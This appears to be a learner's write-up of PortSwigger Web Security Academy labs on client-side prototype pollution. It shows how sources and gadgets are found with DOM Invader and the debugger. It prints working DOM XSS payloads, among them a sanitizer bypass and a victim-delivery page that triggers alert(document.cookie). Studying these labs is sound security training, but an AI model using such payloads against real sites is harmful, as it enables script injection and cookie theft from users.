 # Prototype pollution

- https://portswigger.net/web-security/prototype-pollution
- https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
- https://portswigger.net/web-security/prototype-pollution/client-side
- https://portswigger.net/web-security/prototype-pollution/server-side
- https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution

## DOM XSS via client-side prototype pollution

For learning purposes the lab was done using DOM Invader and by manual testing.

### DOM Invader

Turning on `DOM Invader` and setting `Attack Type` to `Prototype pollution` retrieves with two detected sources:
 - `__proto__[property]=value` in search
 - `constructor[prototype][property]=value` in search 

Testing the first finding we can notice that `Object.prototype` was polluted and contains arbitrary `testproperty` with value `DOM_INVADER_PP_POC`.

Now scanning for gadgets reviels one `script.src` sink and points to the code:

```
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

Now clicking `Exploit` opens a new page with the url `/?search=nsteng9k1'"<>&__proto__[transport_url]=data:,alert(1)` performing XSS

Pollution probably happends in `deparam.js` script.

### Manual

By accessing url `/?__proto__[foo]=bar` we can now check whether pollution was successful, by running `console.log(Object.prototype)` and noticing new `foo` property with `bar` value.

Now in order to test for gadgets, we intercept all the requests in responses and for the script we want to test we add `debugger` statement at the beggining of the script. Now after loading the page, the script execution will pause. Running below code in the console will pollute `Object.prototype` and inform us of every access to its new arbitrary value:

```
Object.defineProperty(Object.prototype, 'transport_url', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```

From this we can read, at which line of code the value is accessed and notice it is being passed to `script.src`.

Now we can craft our own exploit: `?__proto__[transport_url]=data:,alert(1);`

NOTE: In `data:,alert(1);` payload `,` char is because of how this the script tag with data is defined. Usually we have comma separated configuration (type, encoding etc.) and the code

## DOM XSS via an alternative prototype pollution vector

Using `DOM Invader` we can quickly notice one source in search. Now as we scan for gadgets we notice that the value is being passes into `eval` in `searchLogger` function.


Now using dev tools debbuger pausing on `eval` function or the console we can figure out the working payload that solves the lab: `?__proto__.sequence=alert(1)+`.

The `+` sign is there because the code appends `1` at the end of the string, which normnally causes syntaxt error, but `+` sign bypasses this problem.

## Client-side prototype pollution via flawed sanitization

This time DOM Intruder did not find any sources, but be can notice loaded `deparamSanitised.js` script which uses `sanitizeKey` function defined as:

```
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Since `replaceAll` function is not called recursively, we can bypass the protection like this: `sanitizeKey("__pro__proto__to__")`

Now accessing `?__pro__proto__to__[foo]=bar` updates the prototype with `foo` property.

`DOM Invader` was able to scan for gadgets and revieled again `transport_url` param passed to `script.src` sink.

Now accessing `?__pro__proto__to__[transport_url]=data:,alert(1);` solves the lab.

## Client-side prototype pollution in third-party libraries

DOM Invader found prototype polution in hash, which tested manually is successful. Testing for gadgets finds one sink in minified js library `ga.js` at `hitCallback` parameter.

Accessing `#__proto__[hitCallback]=alert(1)` successfully triggers `alert` function, so in order to solve the lab we need to deliver to the victim the following page:

```
<script>
location = "https://0a5800d1033bc7ab81b3851200a90031.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>
```

We cannot use an iframe because of `X-Frame-Options`, but redirection is good enough.
